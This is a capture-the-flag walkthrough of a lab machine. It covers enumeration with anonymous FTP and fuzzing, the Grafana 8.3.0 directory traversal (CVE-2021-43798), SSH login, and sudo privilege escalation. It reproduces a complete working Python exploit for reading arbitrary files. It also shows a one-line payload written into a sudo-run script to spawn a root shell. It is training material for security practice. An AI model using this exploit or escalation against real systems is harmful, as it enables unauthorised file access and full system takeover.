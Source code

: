 ```yaml
---
sticker: emoji//1f6b6
---
```

# ENUMERATION


## OPEN PORTS

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025014342.png)


```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025014539.png)
We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025014619.png)

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025014823.png)

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

## FUZZING

### PORT 80 WEBSITE

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025014929.png)

Found a `/maintenance.html` directory that may be useful, let's visit it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025015023.png)

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website



### PORT 3000 WEBSITE

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025013600.png)
A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025013631.png)

Default page is a login page, something interest I found was this:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025015156.png)


Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025015326.png)

Perfect, found exactly what I needed, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
            
```


# EXPLOITATION

## LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025015835.png)
And it works correctly, let's read our `/tmp/pass.txt` file!

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025015908.png)

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```


Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025020149.png)

Nice, we got access, let's start with the privilege escalation.

# PRIVILEGE ESCALATION



## SUDO -L

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025020240.png)

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025020359.png)

Something simple, just a print statement on it, let's check if we can write in it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025020446.png)

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241025020740.png)

And just like that, the CTF is done!